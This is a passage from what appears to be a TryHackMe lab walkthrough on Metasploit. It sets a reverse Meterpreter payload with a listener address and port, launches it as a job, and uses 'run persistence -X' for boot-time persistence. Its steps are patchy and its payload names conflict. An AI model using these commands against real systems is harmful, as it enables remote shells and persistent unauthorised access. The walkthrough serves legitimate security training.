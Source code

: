 ```
2
```

### #3 After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

![](https://imgur.com/aa4eaMs.png")

### #4 Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload

windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.

```
Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.9.2.228       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

### #6 Last but certainly not least, let's look at persistence mechanisms via

Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot
startup.

[Meterpreter Service | Offensive Security](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)

```
run persistence -X
```


